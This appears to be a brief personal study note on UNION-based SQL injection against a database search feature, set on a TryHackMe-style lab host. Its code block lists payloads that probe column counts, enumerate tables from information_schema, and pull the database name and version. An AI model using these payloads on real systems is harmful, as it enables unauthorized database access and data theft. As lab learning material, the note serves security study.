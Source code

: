 ### N o T e S

---

Sometimes, we are given a database and not a login portal which is vulnerable to SQLi.

- Use of `UNION` operator.
- Use of `AS` keyword. --> It renames a coloumn or table of the query result.

### Example : Book Search database

Example of Sqli in database : 

```sql
Feeling%' UNION SELECT NULL NULL NULL --

https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,database()

1 UNION SELECT @@VERSION, @@VERSION, @@VERSION, @@VERSION
1 UNION SELECT NULL, NULL, NULL, NULL
1 UNION SELECT NULL, table_name, NULL, NULL FROM information_schema.tables
```
